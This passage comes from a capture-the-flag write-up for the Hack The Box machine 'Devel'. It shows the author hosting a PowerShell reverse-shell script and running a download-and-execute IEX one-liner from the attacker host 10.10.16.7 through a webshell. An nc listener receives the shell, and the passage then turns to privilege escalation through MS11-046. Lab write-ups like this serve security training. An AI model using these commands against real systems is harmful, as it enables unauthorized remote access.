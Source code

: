 Lets create a directory called `www` simply because I dont like exposing all my directory contents to the web.

I will move the `shell.ps1` to this directory and set a webserver to listen on port 80 using the `python3` command

```sh
┌─[george@parrot]─[~/HTB/boxes/devel]
└──╼ $ mkdir www;mv shell.ps1 www
┌─[george@parrot]─[~/HTB/boxes/devel]
└──╼ $ cd www
┌─[✗]─[george@parrot]─[~/HTB/boxes/devel/www]
└──╼ $ sudo python3 -m http.server 80
[sudo] password for george:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Back to the `webshell`, I will use below `Invoke` command to download and execute the `powershell` script.

```powershell
-Command "IEX(New-Object Net.Webclient).downloadString('http://10.10.16.7:80/shell.ps1')"
```

On our Terminal, I see it grabs the `shell.ps1` file

```sh
10.10.10.5 - - [28/Sep/2023 18:05:54] "GET /shell.ps1 HTTP/1.1" 200 -
```

On the other terminal with out `nc` listener, I see a connection.

```sh
┌─[george@parrot]─[~/HTB/boxes/devel]
└──╼ $ rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.5] 49161
Windows PowerShell running as user DEVEL$ on DEVEL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
iis apppool\web
PS C:\windows\system32\inetsrv>
```
## Shell as NT AUTHORITY\SYSTEM
### systeminfo

Looking at the `systeminfo` output i notice there are no hotfixes for this box which is a good thing for me.

The OS Version is `6.1.7600 N/A Build 7600`. I will look if there is any Kernel exploitation for this build.

Right of the bat I get one that looks promising

### MS11-046 (CVE-2011-1249)
